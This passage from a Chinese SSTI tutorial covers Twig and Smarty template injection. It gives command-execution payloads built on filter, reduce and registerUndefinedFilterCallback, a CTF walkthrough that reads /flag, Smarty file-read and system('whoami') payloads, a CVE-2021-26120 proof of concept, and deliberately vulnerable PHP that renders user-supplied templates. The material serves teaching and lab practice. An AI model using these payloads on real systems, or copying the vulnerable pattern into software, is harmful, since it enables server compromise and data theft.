

##### 4.3.11.3 使用 filter 过滤器

这个 filter 过滤器使用箭头函数来过滤序列或映射中的元素。箭头函数用于接收序列或映射的值：

```plain

{{ lists|filter(v => v > 38)|join(', ') }}

// Output: 40, 42
```

类似于 map，模板编译的过程中会进入 twig_array_filter 函数，这个 twig_array_filter 函数的源码如下：

```plain
function twig_array_filter($array, $arrow)
{
    if (\is_array($array)) {
        return array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);    // $array 和 $arrow 直接被 array_filter 函数调用
    }

    // the IteratorIterator wrapping is needed as some internal PHP classes are \Traversable but do not implement \Iterator
    return new \CallbackFilterIterator(new \IteratorIterator($array), $arrow);
}
```

从源码中可以看到，$array 和 $arrow 直接被 array_filter 函数调用。 array_filter 函数可以用回调函数过滤数组中的元素，如果我们自定义一个危险函数，将造成代码执行或命令执行：

```plain
php > $arr = ["id"];
php > array_filter($arr,"system");
uid=0(root) gid=0(root) groups=0(root)
php >
```

下面给出几个 Payload：

```plain
{{["id"]|filter("system")}}
{{["id"]|filter("passthru")}}
{{["id"]|filter("exec")}}    // 无回显
```



##### 4.3.11.4 使用 reduce 过滤器

这个 reduce 过滤器使用箭头函数迭代地将序列或映射中的多个元素缩减为单个值。箭头函数接收上一次迭代的返回值和序列或映射的当前值：

```plain

{{ numbers|reduce((carry, v) => carry + v) }}
// Output: 6
```

类似于 map，模板编译的过程中会进入 twig_array_reduce 函数，这个 twig_array_reduce 函数的源码如下：

```plain
function twig_array_reduce($array, $arrow, $initial = null)
{
    // 在最新版本中加入了过滤，具体代码看下面图片
    if (!\is_array($array)) {
        $array = iterator_to_array($array);
    }

    return array_reduce($array, $arrow, $initial);    // $array, $arrow 和 $initial 直接被 array_reduce 函数调用
}
```

从源码中可以看到，$array 和 $arrow 直接被 array_filter 函数调用。 array_reduce 函数可以发送数组中的值到用户自定义函数，并返回一个字符串。如果我们自定义一个危险函数，将造成代码执行或命令执行。

直接给出 Payload：

```plain
{{[0, 0]|reduce("system", "id")}}
{{[0, 0]|reduce("passthru", "id")}}
{{[0, 0]|reduce("exec", "id")}}    // 无回显
```

在最新的3.x版本中，此过滤器无法触发，因为twig_array_reduce发生了变化



### 4.4 CTF实战

```bash
docker run -d -p 8080:80 registry.cn-hangzhou.aliyuncs.com/eagleslab/ctf:ssti_twig
```

经测试，发现在 Cookie 处存在 SSTI 漏洞：




根据 SSTI 的测试流程发现目标环境使用了 Twig 模板，版本是 Twig 1.x，直接上 Payload 打就行了：

```bash
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```



### 4.5 smarty

#### 4.5.1 基础使用方法

在开始介绍 Smarty 之前先了解一下模板引擎，模板引擎是为了让前端界面(html)与程序代码(php)分离而产生的一种解决方案，简单来说就是 html 文件里再也不用写 php 代码了。Smarty 的原理是变量替换原则，我们只需要在 html 文件里写好 Smarty 的标签即可，例如 {{name}，然后调用 Smarty 的方法传递变量参数即可

安装方法

```bash
docker exec -it lnmp74 bash
cd /app/public/
composer require smarty/smarty:^3
```

使用方法

```php
<?php

require 'vendor/autoload.php';
$smarty = new Smarty();
$smarty->setTemplateDir('templates');
$smarty->assign('name', 'eagleslab');
$smarty->display('index.tpl');
```

创建模版文件`./templates/index.tpl`

```plain
<h1>Hello {$name} !</h1>
```



#### 4.5.2 开始复现

修改测试源码

```php
<?php
require 'vendor/autoload.php';
$smarty = new Smarty();
// $smarty->setTemplateDir('template');
// $smarty->assign('name', 'eagleslab');
$data = $_GET['name'];
$smarty->display($data); 
// 模版文件直接由用户端传入
```

任意文件读取

- POC：`string:{{include file='C:/Windows/win.ini'}`
- 漏洞原因：{{include} 标签所导致，被该标签引入的文件只会单纯的输出文件内容，就算引入 php 文件也是如此
- 版本限制：无

引入普通文件：

```plain
string:{include file='/etc/passwd'}
```



引入php文件：

```php
string:{include file='index.php'}
```



查看源码就能拿到完整的php代码



代码执行漏洞

```plain
string:{if phpinfo()}{/if}
# if 用来判断条件是否成立的，会通过执行的方式判断是否成立
```



```plain
string:{if system('whoami')}{/if}
```



#### 4.5.3 CVE-2021-26120

- POC：`string:{{function name='x(){{};system(whoami);function '}{{/function}`
- 漏洞原因：[{{function}](https://www.smarty.net/docs/en/language.function.function.tpl)标签的 name 属性可以通过精心构造注入恶意代码
- 版本限制：在 3.1.39 版本修复，所以小于 3.1.39 能用

切换到较早的smarty版本

```php
docker exec -it lnmp74 bash
cd /app/public/
composer require "smarty/smarty:3.1.24"
```

查看版本

```plain
string:{$smarty.version}
```



测试效果

```plain
string:{function name='x(){};system(whoami);function '}{/function}
```



导致漏洞的代码在 libs/sysplugins/smarty_internal_compile_function.php#Smarty_Internal_Compile_Function->compile()



查看 3.1.39 版本修复之后的代码，可以看到增加了正则限制 name 的内容，此时就无法注入恶意代码了

